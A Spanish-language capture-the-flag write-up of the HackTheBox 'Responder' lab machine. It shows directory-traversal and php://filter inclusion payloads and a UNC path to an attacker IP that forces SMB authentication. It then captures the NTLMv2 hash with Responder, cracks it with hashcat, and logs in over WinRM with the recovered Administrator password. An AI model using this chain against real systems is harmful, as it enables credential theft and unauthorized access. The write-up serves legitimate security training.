

## Introduction

En este WriteUp, resolveremos la máquina Responder de la plataforma **[HackTheBox](https://app.hackthebox.com)**. Exploraremos un sistema operativo Windows con los puertos abiertos 80/HTTP y 5985/WINRM. Identificaremos y explotaremos vulnerabilidades de **Local File Inclusion (LFI)** y **Remote File Inclusion (RFI)**, que nos permitirán incluir una ruta UNC para forzar al servidor vulnerable a realizar una autenticación SMB. Con la herramienta Responder, capturaremos el hash **NTLMv2**, que posteriormente craquearemos con hashcat para obtener la contraseña lo cual nos permitira ingresar a la máquina víctima con las credenciales obtenidas mediante Evil-WinRM.

~~~
Platform: HackTheBox
Level: VeryEasy
OS: Windows
~~~

## Reconnaissance

~~~
Target IP: 10.129.28.111
~~~

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Windows** debido al **TTL = 127**

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

Los puertos abiertos son **80/tcp**, **5985/tcp** y **7680/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

## Enumeration

### 80/tcp HTTP

El puerto 80/tcp ejecuta un servidor web `Apache httpd 2.4.52 ((Win64))`. Observamos que el servidor ejecuta el lenguaje `PHP/8.1.1` 

### 5985/tcp WinRM

El puerto 5985/tcp ejecuta un HTTP `Microsoft HTTPAPI httpd 2.0` lo cual suele ser un servidor HTTP de Microsoft utilizado para diversos servicios, especialmente relacionados con la administración remota de sistemas. Este puerto a menudo se utiliza para **WinRM (Windows Remote Management)** un **protocolo de Microsoft** que permite la **gestión remota de sistemas Windows** a través de HTTP(S), aprovechando SOAP (Simple Object Access Protocol) en el proceso. La presencia de **WinRM** en una máquina permite una administración remota directa a través de PowerShell, similar a cómo funciona SSH para otros sistemas operativos.

### 7680/tcp Pando-pub

El puerto 7680 ejecuta Pando-pub, un servicio que generalmente está relacionado con el software **Pando**. El estado del mismo es `filtered` por lo que puede ser un falso positivo.

Procedo a hacer uso de **Whatweb** con el fin de obtener más información de la página web:

No obtenemos mucha más información únicamente notamos que nos informa `ERROR Opening: http://unika.htb/ - no address for unika.htb` lo que significa que es necesario añadir la dirección IP y el dominio `unika.htb` al `/etc/hosts`. En mi caso, lo añado con el comando `echo "10.129.29.111  unika.htb" | sudo tee -a /etc/hosts`

Ahora es posible acceder al sitio web. Al parecer es un sitio perteneciente a una agencia de Diseño:

No hay mucha funcionalidad la página. Notamos que al cambiar el idioma notamos una URL con parámetro `unika.htb/index.php?page=french.html`

## Exploitation

Cuando una URL está parametrizada, como en `index.php?page=`, se puede probar si es vulnerable a **Local File Inclusion (LFI)**

> **Local File Inclusion (LFI)**: Permite acceder a archivos **locales** ya presentes en el servidor. El ataque se basa en el uso de caracteres de **Directory Traversal** (ejemplo: `../../../../`) para navegar fuera del directorio permitido y acceder a archivos arbitrarios. Si el archivo incluido contiene código ejecutable compatible con el servidor (como un archivo PHP), este podría ser ejecutado. Sin embargo, en la mayoría de los casos, LFI se utiliza para **leer** el contenido de archivos sensibles más que para ejecutarlos. Aunque se asocia frecuentemente con aplicaciones en PHP, LFI puede encontrarse en otros entornos como JSP, ASP o cualquier tecnología que permita incluir archivos de forma dinámica.

En este caso, confirmamos que la aplicación es vulnerable a **LFI**, pero solo nos permite acceder a `../../../../windows/system32/drivers/etc/hosts`, ya que otras rutas parecen estar bloqueadas:

Un atacante puede escalar de **LFI** a **Remote File Inclusion (RFI)** manipulando entradas para incluir recursos externos. **LFI** generalmente se limita a archivos locales, en servidores vulnerables se podria intentar **RFI** que permite rutas UNC o recursos externos. **LFI y RFI** usan la misma vulnerabilidad base: La capacidad de controlar qué archivo es procesado por la aplicación. 

> **RFI (Remote File Inclusion)**: Una vulnerabilidad RFI se produce principalmente en aplicaciones web que aceptan la entrada del usuario para determinar qué archivo incluir en una página. Si esta entrada no se filtra o valida correctamente, un atacante puede manipular la entrada para apuntar a un archivo alojado en un servidor bajo su control. Este archivo remoto, a menudo escrito en un lenguaje de scripting como PHP, puede contener código malicioso que será ejecutado por el servidor de aplicaciones vulnerables.

- **LFI:** Se limita a rutas locales.
- **RFI:** Acepta URLs remotas o rutas UNC (Universal Naming Convention), como `\\<IP_atacante>\<recurso_malicioso>`.

En servidores Windows, un atacante puede aprovechar la capacidad del sistema para manejar rutas **UNC (Universal Naming Convention)** como `\\<DIRECCION IP o SERVIDOR ATACANTE>\<RECURSO MALICIOSO>` Esto sucede porque, en sistemas Windows, funciones que trabajan con rutas locales a menudo también aceptan rutas UNC como entradas válidas. 

En PHP, si la directiva `allow_url_include` está habilitada, una función como `include()` puede procesar URLs externas. Por ejemplo, el siguiente código PHP vulnerable: 

~~~PHP
$file = $_GET['file'];
include($file); 
~~~

Para verificar la vulnerabilidad, utilizamos el wrapper `php://filter/convert.base64-encode/resource=index.php` para leer el archivo `index.php` codificado en Base64:

Decodificamos el contenido usando `echo "<contendio codificado>" | base64 -d` y Notamos que efectivamente útiliza la función `include()` y el código no valida la entrada de manera segura:

En sistemas Windows, el puerto **445** se utiliza para **SMB (Server Message Block)**. Al colocar **Netcat** en escucha en este puerto, simulamos un servidor SMB:
 

Hacemos que la aplicación vulnerable intente acceder a un recurso remoto, como `\\10.10.15.52\test\test`

Netcat captura la solicitud correctamente. Esto indica que el servidor remoto (la aplicación vulnerable) está intentando negociar una conexión SMB con mi máquina. **"NT LM 0.12"** y **"SMB 2.002"** son versiones del protocolo SMB que el servidor remoto está intentando usar para conectarse:

Notamos que el servidor intentó acceder a un recurso SMB en nuestra máquina atacante. Durante una conexión SMB, el servidor vulnerable intenta autenticarse con el servidor mi máquina atacante enviando un **hash NTLMv1 o NTLMv2** en lugar de su contraseña en texto claro.

> **NTLM (NT LAN Manager)** es un protocolo de autenticación utilizado en entornos Windows

Herramientas como **Responder** actúan como un servidor SMB falso, esperando conexiones entrantes. Cuando el servidor vulnerable intenta conectarse, la máquina responderá simulando ser un recurso legítimo, el servidor vulnerable envía su hash NTLM. Como parte del protocolo de autenticación SMB, el servidor vulnerable (o el usuario configurado en ese servidor) intentará autenticarse enviando un **hash NTLMv1 o NTLMv2**. Este hash contiene la información necesaria para intentar craquearlo. Utilizamos el comando `sudo responder -I tun0` para ejecutar la herramienta **Responder**:

Accedemos a `unika.htb/index.php?page=\\10.10.15.52\test\test` para capturar el hash **NTLM** 

**Responder** captura el hash **NTLMv2**: El username es `Administrator`

El hash **NTLMv2** capturado se puede craquear utilizando **Hashcat** con el siguiente comando: `hashcat -m 5600 '<hash>' /usr/share/wordlists/rockyou.txt` 

Después de craquearlo, obtenemos las credenciales:

- **Usuario:** Administrator
- **Contraseña:** badminton

Con las credenciales, accedemos al sistema vía **WinRM** usando **Evil-WinRM**: `evil-winrm -i 10.129.28.111 -u Administrator -p badminton`

Buscamos la flag con PowerShell: `Get-ChildItem -Path C:\ -Recurse -Filter "flag.txt" -ErrorAction SilentlyContinue` 

Una vez encontrada la flag utilizo `cd ../../mike/Desktop` para dirigirme al directorio donde se encuentra y utilizo `cat flag.txt` para abrir el archivo:

Una vez obtenida la flag, hemos finalizado la máquina y por ende hemos terminado.

